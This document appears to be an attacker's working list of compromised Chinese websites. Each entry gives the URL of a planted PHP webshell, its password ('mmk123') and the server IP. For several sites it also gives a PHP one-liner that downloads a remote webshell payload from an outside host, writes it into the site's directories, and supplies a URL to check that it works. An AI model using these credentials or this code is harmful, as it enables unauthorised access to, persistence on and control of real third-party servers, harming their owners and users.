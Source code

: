 https://www.zhengxin6.com/uploads/allimg/230418/1m.php |mmk123 |  163.181.78.249
https://www.zhengxin123.net/uploads/20230404/1m.php |mmk123 |  61.160.192.102
https://www.zhengxin2.com/images/swfupload/plugins/12m.php |mmk123 |  61.160.192.100
http://www.zhengxin3.com/plus/img/face/32m.php |mmk123 |  61.160.192.100

https://dpjk.qxlcyjt.com/yCEjBQrapG.php |mmk123 |  47.97.25.132 | 404
http://xl.dzpc.net/m/images/32m.php |mmk123 |  47.96.84.204 | 连接不上

https://xr.xkji.cn/yuq/js/32m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://xr.xkji.cn/photo/httpd.php
<?php file_put_contents("../kz/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xr.xkji.cn/kz/httpd.php?d=up

http://jobtool.ehongya.com/templates/default/index.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://jobtool.ehongya.com/h5/httpd.php
<?php file_put_contents("../install/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://jobtool.ehongya.com/install/httpd.php?d=up

https://www.taiguii.com/static/upload/image/20230719/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.taiguii.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.taiguii.com/config/httpd.php?d=up

https://wq.xkji.cn/web/themes/black/11m.php |mmk123 |  47.93.234.132
http://bbs.xkji.cn/uc_client/lib/xml.class.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://bbs.xkji.cn/api/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bbs.xkji.cn/data/httpd.php?d=up

https://cqll.vwxr.cn/content/images/haibao/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://cqll.vwxr.cn/api/httpd.php
<?php file_put_contents("../h5/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://cqll.vwxr.cn/h5/httpd.php?d=up

https://www.kingmin.cn//wapp/image/portrait/20201216/11m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.kingmin.cn/wapp/httpd.php
<?php file_put_contents("../content/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.kingmin.cn/content/httpd.php?d=up
